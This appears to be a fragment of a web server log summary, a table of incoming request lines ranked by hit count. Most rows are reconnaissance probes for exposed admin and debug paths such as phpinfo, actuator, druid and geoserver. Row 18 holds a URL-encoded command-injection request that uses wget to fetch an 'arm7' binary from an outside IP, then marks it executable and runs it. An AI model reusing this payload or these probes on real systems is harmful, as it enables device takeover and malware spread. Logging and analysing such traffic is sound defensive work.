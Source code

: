 |  13 |                     7 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                                                                      |
|  14 |                     7 | GET /sitemap.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |
|  15 |                     7 | GET /_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|  16 |                     6 | GET /hudson HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                   |
|  17 |                     6 | MGLNDD_xxx.xxx.xxx.xxx_80                                                                                                                                                                                                                                                                                                                                                                                              |
|  18 |                     6 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                           |
|  19 |                     6 | GET /druid/index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  20 |                     5 | GET /stat HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
|  21 |                     5 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                  |
|  22 |                     5 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                           |
|  23 |                     5 | GET /status HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                   |
|  24 |                     5 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                           |
|  25 |                     5 | GET /password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |